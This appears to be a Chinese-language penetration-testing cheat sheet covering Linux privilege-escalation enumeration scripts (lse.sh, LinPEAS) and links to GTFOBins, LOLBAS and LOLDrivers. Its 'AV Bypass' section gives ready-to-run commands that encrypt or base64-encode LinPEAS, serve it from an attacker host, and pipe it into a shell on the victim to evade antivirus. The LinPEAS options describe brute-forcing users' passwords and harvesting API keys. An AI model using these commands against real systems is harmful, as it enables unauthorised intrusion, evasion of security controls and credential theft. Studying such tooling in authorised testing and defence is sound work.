...............................
# lse.sh
Link: (https://github.com/diego-treitos/linux-smart-enumeration)(Another Version of LinENUM)
Usage: 直接上传执行
For: Linux权限提升建议脚本
Parameters: 
```
首先，您应该像 `./lse.sh` 一样执行它。如果你看到一些绿色的 `yes!` ，你可能已经有一些好东西可以使用了。

如果没有，您应该尝试使用 `./lse.sh -l1` 的 `level 1` 详细程度，您将看到更多有趣的信息。
 
如果这没有帮助， `level 2` 将转储您可以使用 `./lse.sh -l2` 收集的有关服务的所有内容。在这种情况下，您可能会发现使用 `./lse.sh -l2 | less -r` 很有用。
 
还可以通过传递 `-s` 参数来选择要执行的测试。有了它，您可以选择要执行的特定测试或部分。例如， `./lse.sh -l2 -s usr010,net,pro` 将执行测试 `usr010` 以及 `net` 和 `pro` 部分中的所有测试。
```
...............................
# LinPEAS
Link:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
For: Linux权限提升建议脚本
Usage: 直接上传执行，没有依赖项。
Parameters: 
``` 
    -a（除正则表达式外的所有检查） - 这也将在 1 分钟内执行进程检查，将在文件中搜索更多可能的哈希值，并使用带有 top2000 密码的 `su` 暴力破解每个用户。 
    -e （extra enumeration） - 这将执行默认情况下避免的枚举检查  
    -r （regex checks） - 这将在文件系统中搜索数百个不同平台的 API 密钥
    -s （superfast & stealth） - 这将绕过一些耗时的检查 - 隐身模式（不会将任何内容写入磁盘）
    -P （Password） - 传递将用于 `sudo -l` 和暴力破解其他用户的密码
    -D （Debug） - 打印有关未发现任何内容的检查以及每次检查所花费时间的信息 
    -d/-p/-i/-t （本地网络枚举） - Linpeas 还可以发现和端口扫描本地网络
```
AV Bypass:
```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

...............................
# GTFOBins
Link: https://gtfobins.github.io/
For: Unix 二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLBAS
Link: https://lolbas-project.github.io/
For: Windows二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLDrivers
Link: https://www.loldrivers.io/
For: 攻击者用来绕过安全控制和执行攻击的精选 Windows 驱动程序列表

